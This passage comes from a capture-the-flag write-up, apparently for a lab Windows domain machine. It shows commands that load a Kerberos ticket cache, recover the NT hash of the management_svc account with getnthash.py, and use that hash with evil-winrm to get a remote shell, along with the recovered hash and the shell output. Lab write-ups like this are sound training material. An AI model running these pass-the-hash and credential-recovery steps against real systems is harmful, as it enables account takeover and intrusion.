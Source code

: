 ```bash

export KRB5CCNAME=management_svc.ccache

```

> I extract the `NT-hash` of the `management_svc` user password from the `.ccache` file using the `getnthash` script from the `PKINITtools` suite:

```bash

sudo python3 getnthash.py certified.htb/management_svc -key 5a580ae1c73ee9b353c8ac83ae70aeb917eac3ffaf4684594e4fff4b98082d33 -dc-ip 10.10.11.41

```
> Result:

```bash

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash

a091c1832bcdd4677c28b5a6a1295584

```
> We have login and `NT-hash` of user `management_svc`. In `BloodHound` we can see that user is a member of `Remote Management Users` group:

![bloodhound_management_svc_remote](./screenshots/bloodhound_management_svc_remote.png)

> This means that I can authenticate to the system via `winrm` using the received credentials:

```bash

evil-winrm -i certified.htb -u management_svc -H a091c1832bcdd4677c28b5a6a1295584

```
> Result:

```bash

*Evil-WinRM* PS C:\Users\management_svc\Documents> whoami
certified\management_svc
*Evil-WinRM* PS C:\Users\management_svc\Documents>

```
> I get first flag:
